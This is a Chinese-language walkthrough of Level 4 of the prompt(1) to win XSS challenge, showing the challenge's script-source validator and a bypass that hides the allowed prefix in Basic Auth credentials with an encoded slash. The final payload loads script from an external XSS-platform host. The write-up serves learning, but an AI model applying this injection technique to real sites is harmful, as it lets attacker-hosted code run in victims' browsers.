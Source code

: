 ## [[prompt(1) to win](http://prompt.ml)] [[Level 4 - Basic Auth](http://prompt.ml/4)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3635/)]

------

## 题目

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

------------

## 解题报告

### 题目分析

这题要要先满足正则条件，才会把我们的输入放到 `<script>` 标签中执行。

换言之若注入成功，得到的 javascript 代码是这样的 `<script src=input />`

问题是若要成功注入，则 input 必须含有这三个固定前缀中的一个：

- `//prompt.ml/`
- `https://prompt.ml/`
- `http://prompt.ml/`

看起来好像无从下手，但实际上这里可以利用 HTTP 的 Basic Auth 认证语法去绕过。


------------

### Basic Auth 语法

当一个网站需要使用 Basic Auth 认证登陆时，若直接访问这个网址，会弹出类似下面这样的要求输入账密的对话框：

![](http://exp-blog.com/wp-content/uploads/2019/03/dbdf1dad58fe5a92d3da8905e932693c.png)

Basic Auth 认证方式也允许在访问网站 `http://host `时，直接在 URL 中加上账密，格式为：

`http://username:password@host`

这种用法其实现在也很普遍的，例如 git clone url 就可以这样用。

> 若一个网址不需要 Basic Auth 认证，同样也可以使用这种方式访问，只是输入的账密会被无视而已。

------------

### 绕过正则

回到这题，我们可以把这个固定前缀 `prompt.ml/` 构造成 Basic Auth 的 `username` 部分。

但是 `username` 不允许出现 `/` 符号，可以对其进行 URL 编码，即 `%2f` 。

注意到题目的代码中会对 `input` 做 `decodeURIComponent(input)` 处理后再进行正则校验，因此即使 `/` 符号被 URL 编码也可以通过正则校验。


------------

### 利用 XSS 平台

至此，我们可以先把 input 构造成这样：`http://prompt.ml%2f:pwd@` （密码部分随便即可）

我们看到此时题目的输出为：`<script src="http://prompt.ml%2f:pwd@"></script>`

由于我们构造的 Basic Auth 是无效的，所以这个输出等价于：`<script src="http://"></script>`

![](http://exp-blog.com/wp-content/uploads/2019/03/b2ad39d513cf2b71144df5b245b1826e.png)

这里我们可以利用 XSS 平台构造一个站点执行 `prompt(1)` ，然后把这个站点地址放到 `<script>` 标签即可。


XSS 平台推荐使用 [http://xss.tf](http://xss.tf) ，新建一个项目，自定义代码为 `prompt(1)` ，得到项目地址： `http://xss.tf/RVO` （注意每个人的项目地址都是不同的）。

![](http://exp-blog.com/wp-content/uploads/2019/03/88017554908cc309e40ec3eb09a1a4d7.png)

利用 XXS 平台的项目地址，构造最终的 payload 为：`http://prompt.ml%2f:pwd@xss.tf/RVO`

![](http://exp-blog.com/wp-content/uploads/2019/03/2436571a3d26f9da280710c5d62b0105.png)


------------

### 一个 BUG

没错，这题是有 BUG 的，前面构造的这个 payload ，在 Chrome 、Edge、360 浏览器都是无法完成挑战的。

打开浏览器开发者工具的 Console ，发现 XSS 请求被 block 掉了。因为 XSS 请求发不出去，导致无法完成挑战。

最终**只有 Firefox 浏览器可以通过**。

![](http://exp-blog.com/wp-content/uploads/2019/03/6cf762727af6af48e5c7348c935658a4.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
